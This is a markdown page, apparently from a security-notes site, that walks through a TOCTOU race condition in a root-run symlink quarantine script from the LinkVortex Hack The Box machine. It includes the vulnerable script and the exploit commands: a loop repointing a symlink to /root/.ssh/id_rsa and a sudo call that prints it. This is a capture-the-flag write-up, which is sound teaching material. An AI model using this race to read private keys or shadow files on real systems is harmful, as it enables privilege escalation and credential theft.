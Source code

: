 ```yaml
---
layout: default
title: TOCTOU
permalink: /toctou/
---
```


# TOCTOU (Time-of-Check to Time-of-Use) 
This example is from the LinkVortex HTB machine.
Suppose we can execute the following code as root:
```
#!/bin/bash
QUAR_DIR="/var/quarantined"
if [ -z $CHECK_CONTENT ];then
CHECK_CONTENT=false
fi
LINK=$1
if ! [[ "$LINK" =~ \.png$ ]]; then
/usr/bin/echo "! First argument must be a png file !"
exit 2
fi
if /usr/bin/sudo /usr/bin/test -L $LINK;then
LINK_NAME=$(/usr/bin/basename $LINK)
LINK_TARGET=$(/usr/bin/readlink $LINK)
if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
/usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
/usr/bin/unlink $LINK
else
/usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
/usr/bin/mv $LINK $QUAR_DIR/
if $CHECK_CONTENT;then
/usr/bin/echo "Content:"
/usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
fi
fi
fi
```

The script takes a .png file as input, checks if it's a symbolic link, and inspects the link's target. If
the target points to sensitive directories like /etc or /root , it unlinks the file; otherwise, it moves
it to a quarantine folder ( /var/quarantined ). Once moved to quarantine and if the environment
variable CHECK_CONTENT is set to true , it prints the content of the linked file.
A race condition called TOCTOU (Time-of-Check to Time-of-Use) opens up here. After the symlink is
moved to quarantine, we can quickly swap the link target to point to a sensitive file such as
/etc/shadow or even a private key for root such as /root/.ssh/id_rsa . If we also set
CHECK_CONTENT=true , the script will read the sensitive file, bypassing the initial check!


Let's first create the directory and PNG file with a symlink target that will pass the initial check, like
/ok. This doesn't actually point to anything real, so it is considered a broken symlink, but we will
change its target later, so it doesn't matter.

```
mkdir -p exploit2/content/images/
ln -s /ok exploit2/content/images/key.png
zip -r -y exploit2.zip exploit2/
```
Then upload the zip file and execcute the following:
```
while true;do ln -sf /root/.ssh/id_rsa
/var/quarantined/key.png;done
```
Finally trigger the script:
```
export CHECK_CONTENT=true; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /opt/ghost/content/images/key.png
```
